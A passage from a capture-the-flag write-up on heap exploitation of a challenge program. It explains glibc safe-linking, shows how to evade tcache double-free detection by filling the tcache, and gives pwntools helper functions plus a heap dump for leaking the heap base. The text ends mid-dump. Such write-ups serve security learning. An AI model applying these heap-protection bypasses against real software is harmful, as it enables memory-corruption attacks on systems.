 Since `glibc 2.32`, when a chunk is freed and stored in a `fastbin` or `tcachebin`, the first bytes corresponding to the address of the next chunk in the bin are protected. It means that if you are able to read it, you won't be able to get the real address of the next chunk. Indeed, the real address has been XORed with the base pointer to the heap shifted by 12 bits to the right. It means that, if you want to decode the protected address, you also need to know the address to the base of the heap. It is possible to get the base of the heap address in the last chunk of memory in a bin. More information about safe linking [here](https://ir0nstone.gitbook.io/notes/binexp/heap/safe-linking).
#### Double free protection
If you try to do a double free in order to have a chunk twice in the `tcachebin`, it will be detected, and the program will abort. Hopefully, this security check is done only for the `tcachebin`, and not in the `fastbin`. It means that, if we want to avoid this security measure, we will need to make the `tcachebin` full (by freeing 7 chunks before).
### Exploit
I will write my exploit using `pwntools`. I have created some utility functions for this challenge:
```py
def create_memory(txt):
    conn.send(b'1\n')
    conn.recvuntil(b'\n')
    conn.send(txt)
    conn.recvuntil(b'\n\n')

def read_memory(slot):
    conn.send(b'2\n')
    conn.recvuntil(b'\n')
    conn.send(slot)
    r = conn.recvuntil(b'\n\n')
    return r.split(b'"')[1]

def erase_memory(slot):
    conn.send(b'3\n')
    conn.recvuntil(b'\n')
    conn.send(slot)
    conn.recvuntil(b'\n\n')
```
#### Get the address to the heap
We saw during the memory analysis that the address to the base of the heap is located in the last chunk in a bin. We can also get the address of any chunk in the heap by looking at any chunk in any bin. To get these addresses, we need to create the chunks, to put them in a bin, but I want to erase the slot 1 first because erasing a slot which is not the first one in the initial array has the consequence of not resetting its pointer.

Let's take an example: if I create 3 slots, then erase the slot 1, then the slot 3, then 2, the initial array will look like this:
```
gef➤  heap chunks
Chunk(addr=0x555555559010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000555555559010     03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x5555555592a0, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592a0     30 93 55 55 55 55 00 00 00 00 00 00 00 00 00 00    0.UUUU..........]
Chunk(addr=0x555555559330, size=0x50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000555555559330     73 72 64 6e 6c 65 6e 7b 66 61 6b 65 5f 66 6c 61    srdnlen{fake_fla]
Chunk(addr=0x555555559380, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000555555559380     59 55 55 55 05 00 00 00 7b 94 6e 69 f0 87 fb 97    YUUU....{.ni....]
Chunk(addr=0x5555555593a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555593a0     99 c6 00 00 50 55 00 00 7b 94 6e 69 f0 87 fb 97    ....PU..{.ni....]
Chunk(addr=0x5555555593c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555593c0     d9 c6 00 00 50 55 00 00 7b 94 6e 69 f0 87 fb 97    ....PU..{.ni....]
Chunk(addr=0x5555555593e0, size=0x20c30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
gef➤  heap bins
─ Tcachebins for thread 1 ─
```